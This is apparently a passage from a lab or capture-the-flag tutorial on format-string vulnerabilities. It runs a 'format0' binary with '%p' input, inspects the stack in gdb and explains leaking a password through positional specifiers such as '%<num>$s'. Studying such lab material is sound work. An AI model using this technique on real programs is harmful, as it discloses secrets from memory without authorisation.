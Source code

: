 ```c
    }

    return EXIT_SUCCESS;
}
```

Here, we would like to read the *\*ptr* variable as it contains the password. First, let's run the executable.

```shell
user@gdb:~$ ./format0
%p
0xbffff67e does not have access!
```

Here, the **%p** prints the first argument *printf()* will find on the stack. Let's take a look at the stack before calling *printf()*.

```nasm
[-------------------------------------code-------------------------------------]
   0x400737 <main+167>:	sub    esp,0xc
   0x40073a <main+170>:	lea    eax,[ebp-0x7a]
   0x40073d <main+173>:	push   eax
=> 0x40073e <main+174>:	call   0x4004a0 <printf@plt>
   0x400743 <main+179>:	add    esp,0x10
   0x400746 <main+182>:	sub    esp,0xc
   0x400749 <main+185>:	lea    eax,[ebx-0x1257]
   0x40074f <main+191>:	push   eax
Guessed arguments:
arg[0]: 0xbffff63e --> 0x7025 ('%p')
[------------------------------------stack-------------------------------------]
0000| 0xbffff620 --> 0xbffff63e --> 0x7025 ('%p')
0004| 0xbffff624 --> 0xbffff63e --> 0x7025 ('%p')
0008| 0xbffff628 --> 0xa ('\n')
0012| 0xbffff62c --> 0x4006a7 (<main+23>:	add    ebx,0x13ad)
0016| 0xbffff630 --> 0xbffff65e --> 0x40 ('@')
0020| 0xbffff634 --> 0x0 
0024| 0xbffff638 --> 0xb7fe5100 (<_dl_lookup_symbol_x+16>:	add    edi,0x19f00)
0028| 0xbffff63c --> 0x7025fc10 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0040073e in main ()
``` 

The first argument on the stack is the format is the format specifier and the second, our string which is also the format specifiers as it is our input string. So, **%p** will print the pointer to our string : **0xbffff63e**.

Now, what if we want to print the pointer to the password ? Well, in a format specifier, you can select a specific argument to print like, `printf("%2$x", 1, 2, 3)` will print 2. 

So, we just need to know were is the pointer to the password on the stack and input `%<num>$s`. Here I use **%s** as we want to print the **string**, not the pointer. Here is the stack...

